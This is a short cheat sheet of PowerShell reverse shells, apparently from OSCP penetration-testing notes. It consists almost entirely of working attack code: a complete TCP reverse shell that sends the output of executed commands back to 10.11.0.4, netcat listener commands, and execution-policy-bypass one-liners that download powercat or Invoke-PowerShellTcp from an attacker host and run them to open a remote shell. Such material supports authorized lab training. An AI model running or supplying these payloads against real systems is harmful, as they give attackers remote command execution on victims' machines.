 # PowerShell

## PowerShell

#### On victim machine

```text
$client = New-Object System.Net.Sockets.TCPClient('10.11.0.4',443);
$stream = $client.GetStream();
[byte[]]$bytes = 0..65535|%{0};
while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0)
{
$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);
$sendback = (iex $data 2>&1 | Out-String );
$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';
$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);
$stream.Write($sendbyte,0,$sendbyte.Length);
$stream.Flush();
}
$client.Close();
```

## Powercat

#### Listener

Start netcat listener on your Kali

```text
nc -lvnp 9001
```

#### On victim machine 

```text
powershell.exe -nop -ep bypass -c "iex ((New-Object Net.WebClient).DownloadString('http://<IP>/oscp/exploitation/rev_shells/powershell/powercat.ps1'));powercat -c <IP> -p <Port> -ep"
```

#### Shortent

```text
powershell.exe -nop -ep bypass -c "iex (iwr http://<IP>/oscp/exploitation/rev_shells/powershell/powercat.ps1);powercat -c <IP> -p <PORT> -ep"
```

## Invoke-PowerShellTcp.ps1

#### Listener

Start netcat listener on your Kali

```text
nc -lvnp 9001
```

#### On victim machine 

```text
powershell.exe -nop -ep bypass -c "iex ((New-Object Net.WebClient).DownloadString('http://<IP>/Invoke-PowerShellTcp.ps1'));Invoke-PowerShellTcp -Reverse -IPAddress <IP> -Port <Port>"
```

